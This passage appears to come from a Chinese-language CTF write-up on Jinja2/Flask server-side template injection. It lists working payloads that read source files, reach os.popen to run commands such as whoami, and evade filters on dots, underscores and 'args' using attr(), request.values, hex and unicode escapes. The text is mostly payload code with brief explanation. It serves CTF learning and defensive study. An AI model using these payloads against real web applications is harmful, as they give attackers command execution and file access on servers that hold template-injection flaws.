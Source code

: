 这里顺便给一个不常见的方法，主要是找到`_frozen_importlib_external.FileLoader`的`get_data()`方法，第一个是参数 0，第二个为要读取的文件名，payload 如下

```
{{().__class__.__bases__[0].__subclasses__()[222].get_data(0,"app.py")}}
```

使用十六进制绕过后，payload 如下

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[222]["get\x5Fdata"](0, "app\x2Epy")}}
```

### 过滤`args`和`.`和`_`

之前某二月赛在 y1ng 师傅博客看到的一个 payload，原理并不难，这里使用了`attr()`绕过点，`values`绕过`args`，payload 如下

```
{{()|attr(request['values']['x1'])|attr(request['values']['x2'])|attr(request['values']['x3'])()|attr(request['values']['x4'])(40)|attr(request['values']['x5'])|attr(request['values']['x6'])|attr(request['values']['x4'])(request['values']['x7'])|attr(request['values']['x4'])(request['values']['x8'])(request['values']['x9'])}}

post:x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('whoami').read()
```

### 导入主函数读取变量

有一些题目我们不并需要去 getshell，比如 flag 直接暴露在变量里面了，像如下这样把`/flag`文件加载到 flag 这个变量里面了

```
f = open('/flag','r')
flag = f.read()
```

我们就可以通过`import`是导入`__main__`主函数去读变量，payload 如下

```
{%print request.application.__globals__.__getitem__('__builtins__').__getitem__('__import__')('__main__').flag %}
```

### Unicode 绕过

这种方法是从安洵杯 2020 官方 Writeup 学到的，我们直奔主题看 payload

```
{%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))|attr(%22\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f%22)(%22os%22)|attr(%22popen%22)(%22whoami%22)|attr(%22read%22)()%}
```

这里的`print`绕过`{{}}`和`attr`绕过`.`上面已经说过了这里不赘述

然后这里的`lipsum`用`{{lipsum}}`测了一下发现是个方法

```
<function generate_lorem_ipsum at 0x7fcddfa296a8>
```
